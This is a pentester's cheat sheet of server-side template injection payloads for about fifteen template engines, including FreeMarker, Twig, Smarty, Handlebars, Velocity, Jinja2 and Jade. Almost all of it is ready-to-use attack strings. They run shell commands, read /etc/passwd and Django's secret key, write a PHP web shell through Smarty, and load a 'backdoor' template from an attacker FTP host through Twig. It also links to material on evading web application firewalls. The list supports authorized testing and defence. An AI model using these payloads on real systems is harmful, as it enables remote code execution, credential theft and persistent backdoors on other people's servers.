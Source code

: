 ```yaml
---
description: >-
  Cheat Sheet for Server Side Template Injection from:
  https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68
---
```


# Server Side Template Injection \(SSTI\)

#### Polyglot:

```text
${{<%[%'"}}%\
```

#### FreeMarker \(Java\):

```text
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```

#### \(Java\):

```text
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```

#### Twig \(PHP\):

```text
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```

#### Smarty \(PHP\):

```text
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
`
```

#### Handlebars \(NodeJS\):

```text
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

#### Velocity:

```text
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

#### ERB \(Ruby\):

```text
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

#### Django Tricks \(Python\):

```text
{% debug %} {{settings.SECRET_KEY}}
```

#### Tornado \(Python\):

```text
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```

#### Mojolicious \(Perl\):

```text
<%= perl code %>
<% perl code %>
```

#### Flask/Jinja2: Identify:

```text
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```

#### Flask/Jinja2:

```text
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

#### Jade:

```text
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

#### Razor \(.Net\):

```text
@(1+2)
@{// C# code}
```

#### This is a useful read on how to avoid WAF with SSTI:

[https://gusralph.info/jinja2-ssti-research/](https://gusralph.info/jinja2-ssti-research/)

#### Still haven't found what you are looking for? Try These:

[book.hacktrickz.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

